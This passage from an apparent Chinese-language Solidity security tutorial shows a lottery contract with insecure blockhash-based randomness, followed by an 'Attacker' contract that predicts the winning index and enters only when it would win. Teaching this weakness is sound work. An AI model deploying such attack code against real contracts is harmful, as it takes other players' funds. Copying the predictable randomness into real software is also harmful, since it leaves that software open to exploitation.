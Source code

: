 ```solidity
        uint256 index = uint256(blockhash(block.number - 1)) % players.length;
        winner = players[index];
        
        // 转账奖金给中奖者
        (bool success, ) = winner.call{value: address(this).balance}("");
        require(success, "Transfer failed");
    }
    
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

### 3.2 攻击合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

interface IUnsafeLottery {
    function enter() external payable;
    function pickWinner() external;
    function players(uint256) external view returns (address);
}

contract Attacker {
    IUnsafeLottery public lottery;
    
    constructor(address lotteryAddress) {
        lottery = IUnsafeLottery(lotteryAddress);
    }
    
    // 🎯 攻击函数
    function attack() public payable {
        require(msg.value >= 1 ether, "Need at least 1 ETH");
        
        // 1. 在发起攻击前，先计算出"随机"结果
        uint256 totalPlayers = getPlayerCount() + 1; // 加上自己
        uint256 winningIndex = uint256(blockhash(block.number - 1)) % totalPlayers;
        
        // 2. 预测自己是否会中奖（假设自己是最后一个加入的玩家）
        if (winningIndex == totalPlayers - 1) {
            // 只有在预测到自己会中奖时，才真正参与抽奖
            lottery.enter{value: 1 ether}();
        } else {
            // 如果预测到自己不会中奖，就不参与
            revert("Not going to win, saving gas");
        }
    }
    
    // 获取当前玩家数量
    function getPlayerCount() public view returns (uint256) {
        uint256 count = 0;
        while (true) {
            try lottery.players(count) returns (address) {
                count++;
            } catch {
                break;
            }
        }
        return count;
    }
```